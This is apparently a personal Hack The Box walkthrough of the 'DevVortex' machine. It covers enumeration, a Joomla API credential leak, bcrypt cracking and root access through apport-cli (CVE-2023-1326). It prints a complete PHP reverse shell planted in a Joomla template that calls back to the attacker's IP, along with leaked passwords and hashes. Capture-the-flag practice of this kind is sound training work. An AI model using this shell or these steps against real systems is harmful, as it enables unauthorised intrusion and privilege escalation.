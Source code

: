 ```yaml
---
Title: DevVortex HTB Machine
Year: "2023"
Difficulty: Easy
share: "true"
---
```


## Reconnaissance

- Conducted an NMAP scan 
- `sudo nmap -sC -sV -n -Pn --min-rate 5000 --disable-arp-ping -p- 10.10.11.242 -oA initial`
- Ports 22 and 80 were open
- The webpage appears to be a static page. There's a contact form and a subscription form which are the only two forms of interaction with the page.
- Ran dirsearch and found:
	- css
	- Images
	- Js
	- Index.html
- All of which were 403
- Nginx version is 1.18 which has a listed vulnerability however, deeper investigation showed that there isn't a proven exploit for it. 
- I also looked at the Jquery version but nothing usable.
- Performed a UDP scan but nothing came up.
- I tried a gobuster dns scan however because there's no DNS server it wouldn't work. 
- I then pulled up a walkthrough as I was stumped. It mentioned that gobuster can be used to enumerate VHOSTs as well. 
- Did some quick googling and found this website
	- https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/
- So used the following command:
	- `gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discover/DNS/subdomains-top1million-5000.txt`
- This didn't return anything. The walkthrough did find something so a little more digging and I realised the timeout must be too short. Used the following command:
	- `gobuster vhost --timeout 20s --append-domain -u http://devvortex.htb/ -w /usr/share/wordlists/seclists/Discover/DNS/subdomains-top1million-5000.txt`
- This found the vhost dev.devvortex.htb
- Added this to the /etc/hosts file and then browsed to it. It's another website so performed a directory enumeration on it with:
	- `gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/dirb/wordlists/common.txt`
- Of note with this one you need to include the trailing / for the the url to work.
- This returned the folder /administator
- This brings up a login page for Joomla
- Joomla doesn't have a default password, it's set when you set it up so I tried some common combinations with no luck.
- I couldn't find the Joomla version quickly so I fired up Metasploit to see what exploits it had available for Joomla.
- Did a search for Joomla and the Joomla_api_improper_access_checks scanner was recent and looked promising. 
- Loaded the scanner
	- `use auxiliary/scanner/http/joomla_api_improper_access_checks`
	- `set rhosts 10.10.11.242`
	- `run`
- The following information was returned
```
 ID   Super User  Name        Username  Email                Send Email  Register Date        Last Visit Date      Group Names
 --   ----------  ----        --------  -----                ----------  -------------        ---------------      -----------
 649  *           lewis       lewis     lewis@devvortex.htb  1           2023-09-25 16:44:24  2023-11-28 14:35:25  Super Users
 650              logan paul  logan     logan@devvortex.htb  0           2023-09-26 19:15:42                       Registered

[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        joomla
 db password    P4ntherg0t1n5r3c0n##
 db prefix      sd4fg_
 db user        lewis
 dbtype         mysqli

```
- I now have an admin account and password

## Weaponisation

- Logged using the Lewis Account
- Information Recovered
	- Joomla Version: 4.2.6
	- Running PHP 7.4.3
- I haven't worked with Joomla before so I was struggling on where to modify the templates. 
- Found it under System -> Configuration -> Templates -> Administrator Templates
- I created a new PHP template
- Added the following code

```
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.179"; $port = 4242; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\\n"; } } ?>
```
- Popped a shell with the user as www-data
- Recovered the following information

```
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

- I went down a rabbit hole looking at PrivEsc exploits for Linux with no luck. 
- I took a quick look at the Walkthrough and there was a piece of information that I had overlooked from the Credential Leak. 
- Earlier I had looked at the Joomla DB but I didn't look close enough. 
- The user Logan has logged into Joomla. Logan is also a local user with a home directory.
- Pulled the user table
	- `logan / logan@devvortex.htb / $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`
	- `lewis / lewis@devvortex.htb / $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u`
- Used JTR with brcypt format
- `john --format=bcrypt --wordlist=rockyou.txt hashes`
- Recovered the following password: tequieromucho

## Delivery

- I was able to su to Logan with that password. 
- Recovered the user flag `607620777899361129f7b29ba737074c`
- Running `sudo -l` showed that apport-cli can be run as sudo without a password
- Checking the version and its 2.20 which has a privilege escalation exploit against it
	- CVE-2023-1326
	- https://github.com/advisories/GHSA-qgrc-7333-5cgx
- All you need to do is run the apport-cli command against a crash report
- This is where I got stuck. I think there were supposed to be crash reports on the box but there weren't any. 
- I messed around with an exploit from exploit-db which did all the work for you but it contained a compiled C program and the required libraries weren't on the target box. 
- I found a video walkthrough for this box to see if it showed how to create a crash report.

## Exploitation

- All I had to do was segfault an application
- The command used was `sleep 13 & killall -SIGSEGV sleep` this dropped back to the command line and the next command caused a segfault which generated a crash report in /var/crash
- I was then able to run the following:
	- `sudo /var/bin/apport-cli -c /var/crash/_bin_sleep.100.crash`
- Once the : was on the screen you are able to run commands prefixing them with an !

## Actions on Objective

- The root flag was recovered from /root/root. Txt
	- `72429bb0806bc0bcae75f51b03664050`
